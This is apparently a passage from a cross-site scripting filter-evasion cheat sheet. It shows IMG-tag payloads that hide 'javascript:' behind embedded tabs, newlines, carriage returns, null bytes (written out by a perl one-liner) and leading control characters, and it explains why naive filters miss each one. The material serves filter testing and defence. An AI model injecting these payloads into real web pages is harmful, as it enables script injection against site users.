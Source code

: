 
			Embedded tab

			Used to break up the cross site scripting attack:
			1
			<IMG SRC="jav    ascript:alert('XSS');">


			Embedded Encoded tab

			Use this one to break up XSS :
			1
			<IMG SRC="jav&#x09;ascript:alert('XSS');">


			Embedded newline to break up XSS

			Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:
			1
			<IMG SRC="jav&#x0A;ascript:alert('XSS');">


			Embedded carriage return to break up XSS

			(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I’ve seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):
				1
				<IMG SRC="jav&#x0D;ascript:alert('XSS');">


				Null breaks up JavaScript directive

				Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use %00 in the URL string or if you want to write your own injection tool you can either use vim (^V^@ will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char %00is much more useful and helped me bypass certain real world filters with a variation on this example:
				1
				perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out


				Spaces and meta chars before the JavaScript in images for XSS

				This is useful if the pattern match doesn’t take into account spaces in the word “javascript:” -which is correct since that won’t render- and makes the false assumption that you can’t have a space between the quote and the “javascript:” keyword. The actual reality is you can have any char from 1-32 in decimal:
				1
				<IMG SRC=" &#14;  javascript:alert('XSS');">


				Non-alpha-non-digit XSS

